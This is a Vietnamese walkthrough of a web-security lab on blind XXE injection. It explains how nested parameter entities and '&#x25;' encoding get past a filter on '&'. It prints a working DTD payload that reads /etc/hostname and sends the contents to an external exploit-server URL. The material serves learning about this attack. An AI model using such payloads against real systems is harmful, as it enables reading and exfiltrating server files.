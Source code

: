 ![image](https://github.com/user-attachments/assets/f2ce48a9-9ce5-499c-b0c3-314a2bf7d845)

![image](https://github.com/user-attachments/assets/72869bc4-1267-4c85-87cc-935463b78779)

Nó vẫn đang filter `&` 

![image](https://github.com/user-attachments/assets/127385ac-7162-4c9a-9a21-671de6484fe6)

![image](https://github.com/user-attachments/assets/cb0151f1-2c1b-4cca-8ba6-2569de973516)

Thật may là `%` nó không bị filter. Vậy bây giờ quay ngược lại challenge xem, giờ làm sao có thể lấy được `/etc/hostname`.

Và chúng ta hãy để ý rằng challenge này nó khác, nó sẽ cho chúng ta 1 cái server để chúng ta tạo payload và hứng data về.

![image](https://github.com/user-attachments/assets/47d38a37-f75e-4398-99b2-7f811a0af26d)

ta có thể thấy rằng ở đây nó có 2 đoạn code, thì đoạn code 1 sẽ chạy được và đoạn code 2 sẽ thất bại, lí do tại sao bạn có biết không?. Nhìn có vẻ cũng đúng mà....

**Đoạn code 1:**

Thiếu một parser XML: Để thực thi các thực thể, cần có một parser XML. Nếu parser không được cấu hình để cho phép truy cập hệ thống file, thực thể %file sẽ không được giải quyết thành nội dung của file `/etc/hostname` mà chỉ đơn giản là một chuỗi ký tự.

Không có cơ chế thực thi: Thực thể `%exfil` chỉ tạo ra một yêu cầu HTTP, nhưng không có cơ chế nào để thực thi yêu cầu này và nhận kết quả trả về.

**Đoạn code 2:**

Lớp thực thi bổ sung: Bằng cách khai báo thực thể `%eval` và sau đó khai báo thực thể %exfil bên trong nó, code 2 đã tạo ra một lớp thực thi bổ sung. Điều này khiến parser XML phải xử lý khai báo thực thể `%exfil` một lần nữa, và lần này, nó có thể được giải quyết thành một yêu cầu HTTP thực sự.

Vấn đề về mã hóa: Việc sử dụng `&#x25`; để mã hóa ký tự `%` là một kỹ thuật thường được sử dụng để bypass các bộ lọc. Điều này cho phép thực thể %exfil được khai báo bên trong một thực thể khác mà không bị parser XML nhận diện và loại bỏ.

![image](https://github.com/user-attachments/assets/7fd3c492-45da-456b-be2a-69b8a891bb81)

Bạn cũng có thể dùng payload như này:

```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'https://exploit-0a4d004c045aa6c6aadda585012d00dd.exploit-server.net/?x=%file;'>">
%eval;
%exfil;
%file;
```

Còn lí do bạn phải dùng html encode `&#x25;` là do có 2 cái `%` cùng trong parameter entity nên phải encode 1 cái cho nó khác cũng giống như `'` và `"` trong code đó á v:.

Khi sử dụng ký tự % trong XML, đặc biệt là trong định nghĩa parameter entity, cần phải cẩn thận vì % có vai trò đặc biệt trong XML. Nó được dùng để bắt đầu một parameter entity reference. Nếu có nhiều ký tự % trong cùng một định nghĩa hoặc ngữ cảnh mà parser có thể nhầm lẫn, việc encode một trong số các ký tự % là cần thiết để phân biệt và tránh xung đột cú pháp.
